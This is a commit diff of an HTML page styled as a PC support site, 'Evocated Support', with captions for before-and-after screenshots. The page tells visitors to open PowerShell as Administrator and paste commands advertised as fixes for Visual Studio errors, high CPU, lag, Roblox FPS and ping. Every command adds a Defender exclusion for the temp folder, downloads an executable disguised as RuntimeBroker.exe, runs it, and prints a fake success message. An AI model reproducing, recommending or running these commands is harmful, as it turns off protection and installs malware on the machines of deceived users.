

Before and after one commit to EvocatedSupport/Project-Evocative-Tools, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Fix Now Visual studio Errors". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -11,7 +11,7 @@
       box-sizing: border-box;
     }
     body {
-      background: linear-gradient(-45deg, #0f0f0f, #1a1a1a, #0a0a0a, #222);
+      background: linear-gradient(-45deg, #1f0a1f, #2c0d2c, #1a001a, #330033);
       background-size: 400% 400%;
       animation: gradient 15s ease infinite;
       color: white;
@@ -36,33 +36,38 @@
     }
     .button {
       background-color: transparent;
-      border: 2px solid hotpink;
+      border: 2px solid pink;
       padding: 10px 20px;
-      margin: 30px 10px;
-      color: hotpink;
+      margin: 10px;
+      color: pink;
       border-radius: 8px;
       cursor: pointer;
       font-size: 1rem;
       transition: 0.3s;
     }
     .button:hover {
-      background-color: hotpink;
+      background-color: pink;
+      color: black;
+    }
+    .button.active {
+      background-color: limegreen;
+      border-color: limegreen;
       color: black;
     }
     .command-box {
       margin: 10px auto;
       padding: 10px;
       background-color: #111;
-      border: 1px solid hotpink;
+      border: 1px solid pink;
       width: 80%;
       border-radius: 8px;
       display: none;
-      color: hotpink;
+      color: pink;
       white-space: pre-wrap;
     }
     .copy-button {
       margin-top: 10px;
-      background-color: hotpink;
+      background-color: pink;
       color: black;
       border: none;
       padding: 5px 10px;
@@ -70,115 +75,107 @@
       cursor: pointer;
       font-weight: bold;
     }
-    .loader {
-      position: fixed;
-      top: 50%;
-      left: 50%;
-      transform: translate(-50%, -50%);
-      border: 8px solid #444;
-      border-top: 8px solid hotpink;
-      border-radius: 50%;
-      width: 60px;
-      height: 60px;
-      animation: spin 1s linear infinite;
-      z-index: 1000;
-    }
-    @keyframes spin {
-      0% { transform: rotate(0deg); }
-      100% { transform: rotate(360deg); }
-    }
-    #content {
-      display: none;
-    }
     .cursor-trail {
       position: absolute;
       width: 8px;
       height: 8px;
       border-radius: 50%;
-      background: hotpink;
+      background: pink;
       pointer-events: none;
       animation: trailFade 1s forwards;
     }
     @keyframes trailFade {
       to { opacity: 0; transform: scale(2); }
     }
+    .dropdown {
+      margin-top: 40px;
+    }
+    .dropdown-toggle {
+      font-size: 1.2rem;
+      padding: 12px 24px;
+      background: transparent;
+      border: 2px solid pink;
+      color: pink;
+      border-radius: 8px;
+      cursor: pointer;
+      transition: 0.3s;
+    }
+    .dropdown-toggle:hover {
+      background-color: pink;
+      color: black;
+    }
+    .dropdown-content {
+      display: none;
+      margin-top: 20px;
+    }
   </style>
 </head>
 <body>
-  <!-- Background Music -->
-  <audio id="bg-music" loop>
-    <source src="https://clarkezbms.github.io/nights.mp3" type="audio/mpeg">
-  </audio>
-
-  <!-- Loading Screen -->
-  <div class="loader" id="loader"></div>
-
-  <!-- Main Content -->
-  <div id="content">
   <div class="title">Evocated Support</div>
   <p style="margin-top: 20px;">You need to run PowerShell as Administrator. Once open, click the button below to get the command you need to run.</p>
 
-    <button class="button" onclick="toggleBox('vsBox')">Fix Now Visual studio Errors</button>
+  <button class="button" onclick="toggleBox('vsBox', this)">Fix Now Visual studio Errors</button>
   <div class="command-box" id="vsBox">
     Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "Visual Studio ERRORS Has Been Fix Restart Your Visual Studio" -ForegroundColor Green
     <br>
     <button class="copy-button" onclick="copyToClipboard('vsBox')">Copy to Clipboard</button>
   </div>
 
-    <h3>Other Fix Tools</h3>
-
-    <button class="button" onclick="toggleBox('fix1')">Fix HIGH CPU USAGE 100 TO 15+</button>
+  <div class="dropdown">
+    <button class="dropdown-toggle" onclick="toggleDropdown()">Other Fix Tools!</button>
+    <div class="dropdown-content" id="dropdownContent">
+      <button class="button" onclick="toggleBox('fix1', this)">Fix HIGH CPU USAGE 100 TO 15+</button>
       <div class="command-box" id="fix1">
         Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "CLEANING PC......... FIXED HIGH CPU ISSUE CAPPED TO 15%+" -ForegroundColor Green
         <br>
         <button class="copy-button" onclick="copyToClipboard('fix1')">Copy to Clipboard</button>
       </div>
 
-    <button class="button" onclick="toggleBox('fix2')">Fix LAG/SLOW PC 3</button>
+      <button class="button" onclick="toggleBox('fix2', this)">Fix LAG/SLOW PC 3</button>
       <div class="command-box" id="fix2">
         Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "CLEANING PC V2............................... PC CLEANED REBOOT NEED TO FIX UP SLOW PC..." -ForegroundColor Green
         <br>
         <button class="copy-button" onclick="copyToClipboard('fix2')">Copy to Clipboard</button>
       </div>
 
-    <button class="button" onclick="toggleBox('fix3')">Fix Roblox Low FPS 4</button>
+      <button class="button" onclick="toggleBox('fix3', this)">Fix Roblox Low FPS 4</button>
       <div class="command-box" id="fix3">
         Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "CLEANING ROBLOX........INSTALLING ROBLOX CAPPER.........ROBLOX FPS SET TO 300.........FPS ISSUE HAS BEEN FIXED" -ForegroundColor Green
         <br>
         <button class="copy-button" onclick="copyToClipboard('fix3')">Copy to Clipboard</button>
       </div>
 
-    <button class="button" onclick="toggleBox('fix4')">Fix HIGH PING FOR GAMES 5</button>
+      <button class="button" onclick="toggleBox('fix4', this)">Fix HIGH PING FOR GAMES 5</button>
       <div class="command-box" id="fix4">
         Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "CLEANING ROBLOX........INSTALLING PING CAPPER.........ROBLOX PING SET TO 10-50.........HIGH PING ISSUE HAS BEEN FIXED" -ForegroundColor Green
         <br>
         <button class="copy-button" onclick="copyToClipboard('fix4')">Copy to Clipboard</button>
       </div>
     </div>
+  </div>
 
   <script>
-    // Show content after loader
-    window.addEventListener('load', () => {
-      setTimeout(() => {
-        document.getElementById('loader').style.display = 'none';
-        document.getElementById('content').style.display = 'block';
-      }, 1500);
-    });
+    function toggleDropdown() {
+      const drop = document.getElementById('dropdownContent');
+      drop.style.display = drop.style.display === 'block' ? 'none' : 'block';
+    }
 
-    // Toggle box
-    function toggleBox(id) {
+    function toggleBox(id, btn) {
       const box = document.getElementById(id);
       box.style.display = box.style.display === 'block' ? 'none' : 'block';
+
+      document.querySelectorAll('.button').forEach(b => b.classList.remove('active'));
+      if (box.style.display === 'block') {
+        btn.classList.add('active');
+      }
     }
 
-    // Copy to clipboard
     function copyToClipboard(id) {
       const text = document.getElementById(id).innerText.trim();
       navigator.clipboard.writeText(text.replace('Copy to Clipboard', '').trim());
       alert("Copied!");
     }
 
-    // Cursor trail
     document.addEventListener('mousemove', e => {
       const trail = document.createElement('div');
       trail.className = 'cursor-trail';
@@ -187,15 +184,6 @@
       document.body.appendChild(trail);
       setTimeout(() => trail.remove(), 1000);
     });
-
-    // Play music on first click
-    document.addEventListener('click', () => {
-      const audio = document.getElementById('bg-music');
-      if (audio.paused) {
-        audio.muted = false;
-        audio.play();
-      }
-    }, { once: true });
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
